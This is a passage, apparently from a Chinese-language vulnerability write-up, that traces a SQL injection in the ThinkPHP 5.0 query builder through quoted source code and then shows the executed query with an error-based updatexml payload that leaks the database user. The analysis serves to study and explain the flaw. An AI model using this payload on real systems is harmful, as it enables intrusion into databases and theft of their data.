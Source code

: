```php
        ...

        if (is_string($field) && preg_match('/[,=\>\<\'\"\(\s]/', $field)) {
            ...
        } else {
            $where[$field] = [$op, $condition, isset($param[2]) ? $param[2] : null];
            if ('exp' == strtolower($op) && isset($param[2]) && is_array($param[2])) {#$param[2]没有设置,因此不用进行参数绑定
                // 参数绑定
                $this->bind($param[2]);
            }
            // 记录一个字段多次查询条件
            $this->options['multi'][$logic][$field][] = $where[$field];#用户输入的参数没有经过过滤便赋值到$this->options中
        }
        if (!empty($where)) {
            if (!isset($this->options['where'][$logic])) {
                $this->options['where'][$logic] = [];
            }
            ...
            $this->options['where'][$logic] = array_merge($this->options['where'][$logic], $where);
        }
    }

#thinkphp/library/think/db/Builder.php
    // where子单元分析
    protected function parseWhereItem($field, $val, $rule = '', $options = [], $binds = [], $bindName = null)
    {
        $whereStr = '';
        if (in_array($exp, ['=', '<>', '>', '>=', '<', '<='])) {
            ...
        } elseif ('EXP' == $exp) {
            // 表达式查询
            $whereStr .= '( ' . $key . ' ' . $value . ' )';
        }
        return $whereStr;
    }
```

在`parseWhereItem`中完成`$this->options`拼接,并执行sql语句,最终执行的语句为

```
SELECT * FROM `users` WHERE  ( `username` =1) and updatexml(1,concat(0x7e,user(),0x7e),1)# ) 
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204112020497.png)

# 模板引擎文件包含漏洞

>测试版本为5.0.14
